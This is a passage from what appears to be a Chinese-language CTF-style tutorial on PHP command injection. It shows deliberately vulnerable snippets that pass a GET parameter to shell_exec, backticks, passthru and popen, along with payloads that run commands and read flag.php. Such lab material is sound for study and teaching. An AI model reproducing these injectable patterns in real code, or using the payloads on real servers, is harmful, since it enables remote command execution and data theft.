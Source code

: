 **exec()**函数直接执行命令，那么payload

> ?c=whoami

##### **E.g.14**

<?php  
error\_reporting(0);  
show\_source(\_\_FILE\_\_);  
$a = "$\_GET\[c\]";  
echo shell\_exec($a);  
?

函数的特性**shell\_exec**

> ?c=ls>2.txt

然后执行

> ?c=cat 2.txt

此时

![image-20220307182917048.png](https://www.hetianlab.com/headImg.action?news=e0334897-4365-4cd0-982b-8538e86fede5.png)

##### **E.g.15**

<?php  
error\_reporting(0);  
show\_source(\_\_FILE\_\_);  
$a = "$\_GET\[c\]";  
echo "<br>";  
echo \`$a\`;  
?>

看到echo以及传入的字符串，方法类似于上面的一道

> ?c=cat%20flag.php>3.txt

直接访问3.txt即可，或者

> ?c=cat%203.txt

##### **E.g.16**

<?php  
error\_reporting(0);  
show\_source(\_\_FILE\_\_);  
$a = "$\_GET\[c\]";  
passthru($a);  
?>

payload：

> ?c=cat%20flag.php

##### **E.g.17**

<?php  
error\_reporting(0);  
show\_source(\_\_FILE\_\_);   
$cmd=$\_GET\['c'\];   
$fd = popen($cmd, 'r');   
while($s=fgets($fd)){   
print\_r($s);   
}   
?>

